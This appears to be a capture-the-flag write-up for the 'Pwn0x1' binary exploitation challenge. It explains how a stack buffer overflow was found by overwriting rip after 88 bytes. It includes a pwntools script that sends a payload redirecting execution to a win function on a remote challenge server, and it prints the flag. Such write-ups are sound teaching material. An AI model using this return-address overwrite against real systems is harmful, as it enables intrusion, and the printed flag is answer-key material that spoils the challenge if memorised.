





## Summary

Challenge **Pwn0x1** from the 2025-SADC-NextGenCyber-CTF CTF, binary exploitation category.

## Statement and artefacts

See the original challenge files and images in this directory.

## Recognition signals

- (see resolution method below)

## Resolution method

# Pwn0x1



By running multiple times the binary and trying various output, I notice that the rip register value changes when we enter more of a certain amount of characters

So the goal here is to change the rip register value with a buffer overflow

Here I used gdb/gef and sent the letter “A” 88 times and the “$rip” var is normal



But here I sent the letter “A” 88 time plus the letter B at the end



And we can see that the “$rip” value change and at the end we have “42” which is the letter “B” at the end 

The rip register holds the next address to be exectuted by the program

In the binary we got a win function. 



I wrote a python script who will send to the remote server the letter A 88 time plus the address of the win function to change the rip register so the next function to call will be the win function

```python
from pwn import *

HOST = "109.205.181.210"
PORT = 14000

chall = remote(HOST, PORT)

#  win function --> 0x4011d6
payload = b"A" * 88 + p64(0x4011d6)
print(f" Sending --> {payload}")

chall.recvuntil(b"give me !")
chall.sendline(payload)
chall.interactive()
```

Output of the script:



**FLAG:** SADC{7h3_n00b_h@ckuuur}

## Flag

SADC{7h3_n00b_h@ckuuur}

## Lessons and reusable patterns

- (see resolution method above)
